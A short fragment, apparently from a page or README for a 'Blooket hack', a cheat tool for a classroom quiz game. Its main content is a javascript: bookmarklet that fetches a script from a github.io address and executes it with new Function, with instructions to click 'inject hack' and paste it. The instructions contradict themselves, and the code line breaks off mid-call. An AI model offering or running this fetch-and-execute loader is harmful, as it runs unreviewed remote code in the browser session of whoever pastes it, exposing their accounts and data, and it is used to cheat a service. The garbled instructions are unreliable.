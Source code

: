 javascript:fetch('https://thatfrueddued.github.io/blooket-hack/index.js').then(r=>r.text()).then(t=>(new Function(t))(

Do not paste this 
Click inject hack and paste this  

